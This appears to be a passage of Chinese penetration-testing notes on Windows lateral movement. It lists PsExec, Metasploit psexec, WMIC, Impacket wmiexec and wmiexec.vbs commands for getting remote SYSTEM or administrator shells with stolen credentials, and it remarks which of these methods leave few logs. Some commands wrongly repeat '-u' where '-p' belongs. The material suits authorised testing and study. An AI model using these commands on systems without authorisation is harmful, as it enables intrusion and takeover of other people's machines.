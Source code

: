 |参数 |说明 |
|----|----|
|-accepteula |第一次运行psexec会弹出确认框,使用该参数就不会弹出确认框|
|-s |以system权限运行远程进程,获取一个system权限的交互式shell,如果不使用该参数,会获得一个administrato权限的shell|
|-u |域\用户名|
|-p |密码|
```cmd
//在建立ipc$的情况下,获得system权限的交互式shell
psexec.exe -accepteula \\ip -s cmd.exe
//在建立ipc$的情况下,获取一个administrator权限的交互式shell
psexec.exe -accepteula \\ip cmd.exe
//没有ipc$的情况下,获取一个administrator权限的交互式shell
psexec.exe \\ip -u administrator -u Aa123456@ cmd.exe
//使用psexec在远程计算机上进行回显
psexec.exe \\ip -u administrator -u Aa123456@ cmd.exe /c "ipconfig"
```
> 需要远程系统开启admin$共享(默认是开启的)
> 在使用ipc$连接目标系统后,不需要输入帐号和密码
> 使用psexec执行远程命令时,会在目标系统中创建一个psexec服务,命令执行后会被自动删除,在创建或者删除服务时会产生大量的日志
> 使用psexec可以直接获得system权限的交互式shell
### 5.5.2 metasploit中的psexec模块
```
exploit/windows/smb/psexec
//powershell版
exploit/windows/smb/psexec_psh
```
## 5.6 WMI的使用
> windows management instrumentation windows98开始都支持
> 默认不会将wmi操作记录在日志中
> wmic命令没有回显,需要使用ipc$和type命令读取信息(或者其它方法)
> 远程计算机需要启动windows management instrumentation服务(开放135端口)
### 5.6.1 基本命令
```cmd
//使用目标系统的cmd执行一条命令,并将结果保存在C盘的ip.txt文件中
wmic /node:ip /user:用户名 /password:Aa123456@ process call create "cmd.exe /c ipconfig > ip.txt"
//建立ipc$连接后使用type读取文件内容
type \\ip\c$\ip.txt
```
### 5.6.2 impacket工具包中的wmiexec
> linux向windows进行横向渗透时使用
`wmiexec.py 用户名:密码@ip`
### 5.6.3 wmiexec.vbs
> wmiexec.vbs通过vbs调用wmi来模拟pswxwc功能
> 可在远程系统中执行命令并进行回显,获得远程主机的半交互式shell
> 运行时间较长的命令(ping,system等),需要添加"-wait 5000"或者更长时间的参数
> 运行nc等不需要输出结果但是需要一直运行的进程时,如果使用"-persist"参数,就不需要使用taskkill命令来远程结束进程了
> 部分软件已经开始查杀了
```cmd
//获得半交互式shell
cscript.exe //nologo wmiexec.vbs /shell ip 用户名 密码
//执行单条命令
cscript.exe wmiexec.vbs /cmd ip 用户名 密码 "ipconfig"
```
### 5.6.4 Invoke-WmiCommand
+ powersploit
> 通过powershell调用wmi来远程执行命令
```powershell
//将powersploit中的Invoke-WmiCommand.ps1导入系统,在powershell命令行环境中输入如下命令
```